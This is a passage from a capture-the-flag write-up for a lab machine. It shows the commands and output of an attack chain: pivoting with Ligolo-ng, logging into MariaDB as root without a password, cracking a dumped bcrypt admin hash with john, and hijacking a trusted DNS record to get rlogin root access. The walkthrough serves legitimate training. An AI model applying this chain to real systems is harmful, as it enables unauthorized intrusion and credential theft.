Nmap done: 256 IP addresses (6 hosts up) scanned in 3.33 seconds
```

<br />

The scan reveals 6 live hosts with several services exposed. We can identify a few relevant services in the output:

- `MySQL` - 172.18.0.4 

- `HTTP 8081` - 172.18.0.5 

- `HTTP 80 (powerdns)` - 172.18.0.6

<br />

### LigoloNG 

<br />

To access these internal services from our attacker machine, we can pivot through the container using [LigoloNG](https://github.com/nicocha30/ligolo-ng). If you don't know how to use it, please refer to the following [website](https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16), which explains very well how to install and setup this tool to establish a tunnel.

Once the tunnel is set up, we can directly browse internal endpoints such as the PowerDNS-Admin panel at `http://172.18.0.6/`.

<br />



<br />

The other HTTP service is hosting a server with basic-auth:

<br />



<br />

## MySQL 

<br />

We don't have credentials to log into the MySQL instance, however, in this case it is not necessary. 

We can connect as root without password:

<br />

```bash
❯ mysql -h 172.18.0.4 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 37
Server version: 11.3.2-MariaDB-1:11.3.2+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

<br />

And list the databases:

<br />

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| powerdnsadmin      |
| sys                |
+--------------------+
5 rows in set (0,047 sec)
```

<br />

There is only one non-default DB: `powerdnsadmin`

We proceed to select this database and list its tables:

<br />

```bash
MariaDB [(none)]> use powerdnsadmin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [powerdnsadmin]> show tables;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0,043 sec)
```

<br />

The `user` table contains the hash of the admin user:

<br />

```bash
MariaDB [powerdnsadmin]> select * from user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | $2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0,042 sec)
```

<br />

The hash was straightforward to crack:

<br />

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
winston          (?)     
1g 0:00:00:29 DONE (2026-01-09 13:42) 0.03385g/s 46.31p/s 46.31c/s 46.31C/s rangers1..danica
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<br />


Using these credentials (`admin:winston`), we can log into the PowerDNS-Admin panel:      

⚠️ Note: The OTP field must be empty.

<br />



<br />

The `build.vl` zone displays all subdomains of the internal network with their respective IP addresses:

<br />



<br />

## Rlogin - intern.build.vl

<br />

The `rhosts` file indicates that two hostnames are trusted for `rlogin`. One of these hostnames is `intern.build.vl`.

This subdomain is available in the Zone records above. We can edit the record for `intern` by making it point to our IP address and next attempt to connect as root using `rlogin`.

We proceed to edit the record:

<br />



<br />

Finally, we connect as root:

<br />

```bash
❯ rlogin root@10.129.234.169
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-144-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jan  9 01:10:34 PM UTC 2026

  System load:  0.0               Processes:             197
  Usage of /:   64.1% of 9.75GB   Users logged in:       0
  Memory usage: 33%               IPv4 address for eth0: 10.129.234.169
  Swap usage:   0%

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
1 of these updates is a standard security update.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@build:~# id
uid=0(root) gid=0(root) groups=0(root)
```

<br />

It worked.

With a root session we can retrieve the `root.txt` flag:

<br />

```bash
root@build:~# cat root.txt 
b7b1e48179891ea87e77b1f83bxxxxxx
```

<br />

Machine rooted.

I hope you learned something new and enjoyed this writeup.

Keep Hacking! ❤️❤️

<br />

